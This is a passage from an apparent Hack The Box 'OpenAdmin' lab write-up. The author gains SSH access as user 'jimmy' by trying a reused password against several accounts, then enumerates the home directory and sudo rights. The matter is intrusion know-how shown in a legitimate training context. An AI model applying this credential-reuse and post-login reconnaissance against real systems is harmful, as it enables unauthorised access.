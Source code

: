 nope didnt work here... anyway port 22 ssh is open, why not just try it out
```console
kali@kali:~/HTB/openadmin$ ssh ona_sys@openadmin.htb
The authenticity of host 'openadmin.htb (10.10.10.171)' can't be established.
ECDSA key fingerprint is SHA256:loIRDdkV6Zb9r8OMF3jSDMW3MnV5lHgn4wIRq+vmBJY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'openadmin.htb,10.10.10.171' (ECDSA) to the list of known hosts.
ona_sys@openadmin.htb's password: 
Permission denied, please try again.
ona_sys@openadmin.htb's password: 

kali@kali:~/HTB/openadmin$ ssh joanna@openadmin.htb
joanna@openadmin.htb's password: 
Permission denied, please try again.
joanna@openadmin.htb's password: 

kali@kali:~/HTB/openadmin$ ssh jimmy@openadmin.htb
jimmy@openadmin.htb's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Oct 26 21:37:40 UTC 2020

  System load:  0.0               Processes:             120
  Usage of /:   49.3% of 7.81GB   Users logged in:       0
  Memory usage: 19%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.


Last login: Thu Jan  2 20:50:03 2020 from 10.10.14.3
jimmy@openadmin:~$ 
```
omg, we are in. Remember that some user re-use their password which is really normalt in real-life.


let recon
```console
jimmy@openadmin:~$ ls -la
total 32
drwxr-x--- 5 jimmy jimmy 4096 Nov 22  2019 .
drwxr-xr-x 4 root  root  4096 Nov 22  2019 ..
lrwxrwxrwx 1 jimmy jimmy    9 Nov 21  2019 .bash_history -> /dev/null
-rw-r--r-- 1 jimmy jimmy  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 jimmy jimmy 3771 Apr  4  2018 .bashrc
drwx------ 2 jimmy jimmy 4096 Nov 21  2019 .cache
drwx------ 3 jimmy jimmy 4096 Nov 21  2019 .gnupg
drwxrwxr-x 3 jimmy jimmy 4096 Nov 22  2019 .local
-rw-r--r-- 1 jimmy jimmy  807 Apr  4  2018 .profile
jimmy@openadmin:~$ cd ../joanna # ofc
-bash: cd: ../joanna: Permission denied
jimmy@openadmin:~$ sudo -l
[sudo] password for jimmy: 
Sorry, try again.
[sudo] password for jimmy: 
```